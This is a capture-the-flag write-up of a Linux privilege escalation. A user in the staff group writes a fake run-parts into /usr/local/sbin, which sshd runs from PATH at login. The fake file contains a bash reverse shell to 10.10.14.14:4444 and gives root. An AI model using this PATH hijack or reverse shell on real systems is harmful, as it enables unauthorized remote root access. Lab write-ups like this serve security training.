



# 15 - PrivEsc


# staff
```bash
jkr@writeup:/var$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

The members of group staff are able to modify /usr/local  without needing root privileges. These paths are also in the PATH variable of any user in linux systems.

# /usr/local



Our user can write to files in `{bin/,sbin/}` but unfortunately no read permission .


# pspy


Note when and how `run-parts` is executed , immediately after a user logs in via ssh`(sshd: [accepted])`. run-parts is run without an absolute path, in which case the binary will be searched in PATH. The first location  in PATH variable is sbin/ in which we have write access. We can place a malicious run-parts in sbin/ and when we log in via ssh on another terminal, our malicious file will be executed instead of the intended /bin/run-parts because /bin is the lowest priority location in the PATH while /usr/local is the highest.


# /usr/local/sbin/run-parts
```bash
jkr@writeup:/usr/local$ chmod +x sbin/run-parts
jkr@writeup:/usr/local$ cat sbin/run-parts
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.14/4444 0>&1

```


# root


